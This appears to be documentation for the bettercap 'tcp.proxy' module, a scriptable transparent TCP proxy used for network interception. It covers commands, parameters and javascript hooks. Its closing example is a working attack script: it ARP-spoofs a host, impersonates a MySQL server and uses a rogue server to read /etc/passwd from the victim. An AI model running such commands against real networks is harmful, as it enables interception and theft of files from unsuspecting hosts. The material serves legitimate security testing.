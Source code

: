 ```yaml
---
title: "tcp.proxy"
date: 2019-02-25T13:18:06+01:00
draft: false
weight: 3
---
```


A TCP transparent proxy that can be scripted using javascript modules. If used together with a [spoofer](/modules/ethernet/spoofers/), all TCP traffic to a given address and port will be redirected to it and it will automatically handle port redirections as needed.

The optional `tcp.tunnel` parameter can be used to redirect the traffic from `tcp.address` to `tcp.tunnel.address`.

### Commands

#### `tcp.proxy on`

Start the TCP proxy.

#### `tcp.proxy off`

Stop the TCP proxy.

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `tcp.port` | `443` | TCP port to redirect when the proxy is activated. |
| `tcp.address` |  | **Mandatory** remote address of the TCP proxy. |
| `tcp.proxy.port` | `8443` | Port to bind the TCP proxy to. |
| `tcp.proxy.address` | `<interface address>` | Address to bind the TCP proxy to. |
| `tcp.proxy.script` | | Path of a proxy module script. |
| `tcp.tunnel.address` | | Address to redirect the TCP tunnel to (optional). |
| `tcp.tunnel.port` | | Port to redirect the TCP tunnel to (optional) |

### Modules

The `tcp.proxy` module can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {

}

// called when data is available
// return an array of bytes to override "data"
function onData(from, to, data) {

}
```

Modules can change the `data` buffer and return it, signaling the proxy to override the original buffer.

### Builtin Functions

Modules can use the following builtin functions.

| function | description |
|----------|-------------|
| `readDir("/path/")` | Return the contents of a directory as a string array. |
| `readFile("/path/to/file")` | Return the contents of a file as a string. |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")` | Log a message in the interactive session (its level will be `DEBUG`). |
| `log_info("message")` | Log a message in the interactive session (its level will be `INFO`). |
| `log_warn("message")` | Log a message in the interactive session (its level will be `WARNING`). |
| `log_error("message")` | Log a message in the interactive session (its level will be `ERROR`). |
| `log_fatal("message")` | Log a message in the interactive session (its level will be `FATAL`). |
| `log("message")` | Shortcut for `log_info("message")`. |
| `btoa("message")` | Encode a message to base64. |
| `atob("bWVzc2FnZQ==")` | Decode a message from base64. |
| `gzipCompress("plaintext data")` | Compress a string using gzip encoding. |
| `gzipDecompress(")9�\+�I��+I�(QHI,I����")` | Decompress a gzip encoded string. |
| `env("iface.ipv4")` | Read a variable. |
| `env("foo", "bar")` | Set a variable. |

### Examples

The [rogue-mysql-server.cap](https://github.com/bettercap/caplets/blob/master/rogue-mysql-server.cap) executes an ARP spoofing attack against a single host and redirect the MySQL traffic to a [builtin rogue server](/modules/ethernet/servers/mysql.server/):

```sh
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
arp.spoof on
```
